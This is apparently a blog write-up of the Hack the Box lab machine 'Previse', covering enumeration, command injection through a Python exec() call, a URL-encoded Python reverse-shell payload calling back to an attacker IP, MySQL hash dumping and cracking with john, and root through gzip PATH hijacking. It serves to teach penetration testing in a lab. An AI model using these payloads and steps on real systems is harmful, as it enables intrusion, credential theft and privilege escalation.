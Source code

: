+++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "burpsuite", "command injection", "gobuster", "mysql", "john", "path hijacking"]
date = 2022-01-08T15:16:55Z
description = ""
draft = false
thumbnail = "/images/2021/08/previse.png"
slug = "hack-the-box-previse"
tags = ["hack the box", "Linux", "easy", "burpsuite", "command injection", "gobuster", "mysql", "john", "path hijacking"]
title = "Hack the Box - Previse"
url = "/hack-the-box-previse"

+++


Welcome back! Today's Hack the Box write-up is for the machine Previse. This machine is listed as an easy Linux machine. Let's get to it!

As usual, we start with a full `nmap` scan. Here are our results.

```
Nmap scan report for 10.10.11.104
Host is up (0.048s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only two ports available, so it looks like our path with be via web exploit of some type. So we'll load up `Burpsuite` and see what's being hosted on port 80.

We see that a basic username / password landing page. Before we start digging into the web requests, we'll try to enumerate any additional files or directories with `gobuster`. 

Command:
`gobuster dir -u http://10.10.11.104 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php,.old,.bak -t 60 -b 403,404`

![](/images/2021/08/image-37.png)

We see a bunch of files. We check them all and find the `nav.php` has some interesting links.

![](/images/2021/08/image-38.png)

When trying to access all of these resources, we need an account. Luckily for us, we have a create account page! However, the page isn't accessable via the browser. When we view the `HTTP` request, we see that is actually something we can access.

![](/images/2021/08/image-39.png)

Given that we can see the source for this request, we know the parameters we need to `POST` in order to create an account.

![](/images/2021/08/image-40.png)

So we will craft the request we need to supply a `username`, `password` and `confirmation` password. We also need to be sure to add our `Content-Type` of `application/x-www-form-urlencoded`. All together, we have the following request.

![](/images/2021/08/image-41.png)

We send the request and we get back a success message!

![](/images/2021/08/image-42.png)

We can now log into the site. When we start looking around we find the file `SITEBACKUP.ZIP` in the files section. We download the file and unzip it to find exactly what we think, a backup of the site. We see in `config.php` a username and password.

![](/images/2021/08/image-43.png)

We still need a username to go with the password. Now, if we look around the site a bit more we have a Request Log Data section. If we download the file, we can see the users associated to logging in, this could give us a user to `SSH` with.

![](/images/2021/08/image-44.png)

Unable to login with those credentials. Now as we continue to sift through the files, we find a gem. A `Python exec()` call in the `logs.php` file.

![](/images/2021/08/image-45.png)

This is not a properly sanatized output, meaning we can leverage it to break things. More on [Command Injection here](https://portswigger.net/web-security/os-command-injection).

The key thing to remember here is that `Python` is calling the `exec()` function. So any injection we want to do, has to be in 'code'. More on that [here](https://www.stackhawk.com/blog/command-injection-python/).

We will use a `python` 'one-liner' to gain a remote shell. Take your pick from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python). Just be to use URL encode the request!

Here's our request data being sent.

```
delim=comma;python3+-c+'a%3d__import__%3bs%3da("socket")%3bo%3da("os").dup2%3bp%3da("pty").spawn%3bc%3ds.socket(s.AF_INET,s.SOCK_STREAM)%3bc.connect(("10.10.14.99",4242))%3bf%3dc.fileno%3bo(f(),0)%3bo(f(),1)%3bo(f(),2)%3bp("/bin/bash")'
```
We sping up a `netcat` listener on port `4242`.

Command:
`nc -lvnp 4242`

Now ww send our request (a few times), and eventually get a response back on our `netcat` listener

![](/images/2021/08/image-46.png)

Before we start enumerating any further, we should check to see if we have `mysql` access. We have credentials from before that we should try to leverage and see what we have access to.

Command:
`mysql -u root -p'mySQL_p@ssw0rd!:)'`

![](/images/2021/08/image-47.png)

Sure enough, we have access! Now we can start sifting through the database.

Commands:
```
use previse;
show tables;
select * from accounts;
```

![](/images/2021/08/image-48.png)

Now we see our username and hashes. We'll copy them out to crack, we really just want `m4lwhere` in particular.

Command:
`echo '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' > m4lwhere.hash`

Now we can run it against `rockyou.txt` to see what we might be able to find. In this case I'll use `john`.

Command:
`john -w=/usr/share/wordlists/rockyou.txt m4lwhere.hash --format=md5crypt-long`

![](/images/2021/08/image-49.png)

A few minutes later we get a match `ilovecody1122235!`. Now let's see if we can `SSH` with this password.

![](/images/2021/08/image-50.png)

Sure enough, we are in! Let's snag our `user.txt` flag and find a way to root! The next thing we check is `sudo -l`.

![](/images/2021/08/image-51.png)

It looks like we have the ability to run a backup script.

![](/images/2021/08/image-52.png)

The problem with this script is that its just saying `gzip`. It's not giving a specific path to `gzip`. This is `Path Hijacking` and it's the reason why you should ensure your paths are explicit and narrow as can be. What we'll do is create our own `gzip` file. This will just be a simple file to `cat` our the `root.txt` flag.

Step one - create a file in a temporary directory in `tmp`. We do it this way so that we don't ruin the box for others. 

Command:
`mkdir /tmp/rf`
`cd /tmp/rf`

Step two - create our 'malicous' `gzip` file.

Command:
`echo 'cat /root/root.txt > /tmp/rf/flag.txt' > gzip`
`chmod +x gzip`

Step three - we will add our temporary path to the enviornmental variables.

Command:
`export PATH=/tmp/rf:$PATH`

You can see that our temporary path has been pre-pended to our `PATH`. This means that the Linux Operating System will check this path before all others for any executable we are running. In this case, the evil `gzip` file.

Now we simply run our privledged script.

Command:
`sudo /opt/scripts/access_backup.sh`

![](/images/2021/08/previseroot.gif)

We get a text file with the `root.txt` flag inside! Feel free to send respect my way if you found this write-up helpful.

HTB Profile - https://app.hackthebox.eu/profile/95635



